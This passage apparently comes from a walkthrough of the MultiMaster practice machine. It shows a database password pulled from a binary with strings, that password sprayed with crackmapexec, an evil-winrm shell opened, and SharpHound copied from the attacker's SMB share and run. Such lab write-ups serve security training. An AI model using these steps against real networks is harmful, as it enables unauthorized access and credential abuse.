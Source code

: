 
But before opening it in DNSpy, I’ll run `strings`. It’s important to remember
for Windows binaries to run with and without `-el` to capture the 16 bit
character strings. There’s one that jumps out when I run with `-el`:

    
    
    server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;
    

That looks like a database connection string.

### Test Creds

In what’s becoming a theme for this box, I’ll check the creds with
`crackmapexec` against my user list to see if it works for any, and it finds
one:

    
    
    root@kali# crackmapexec smb 10.10.10.179 -u dom_users -p 'D3veL0pM3nT!' --continue-on-success
    ...[snip]...
    SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\sbauer:D3veL0pM3nT!
    ...[snip]...
    

### WinRM

This user can also use WinRM to get a shell:

    
    
    root@kali# evil-winrm -u 'MEGACORP\sbauer' -p 'D3veL0pM3nT!' -i 10.10.10.179
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\sbauer\Documents>
    

## Priv: sbauer –> jordan

### Collect Bloodhound

Given this is an active directory environment, it’s time I ran
[BloodHound](https://github.com/BloodHoundAD/BloodHound). I’ll copy
`SharpHound.exe` into my SMB share and then onto MultiMaster:

    
    
    *Evil-WinRM* PS C:\programdata> copy \\10.10.14.19\share\SharpHound.exe .
    

I’ll use `-c all` for all collections methods, and it creates a `.zip` output
file:

    
    
    *Evil-WinRM* PS C:\programdata> .\SharpHound.exe -c all
    ----------------------------------------------
    Initializing SharpHound at 4:35 AM on 4/1/2020
    ----------------------------------------------
    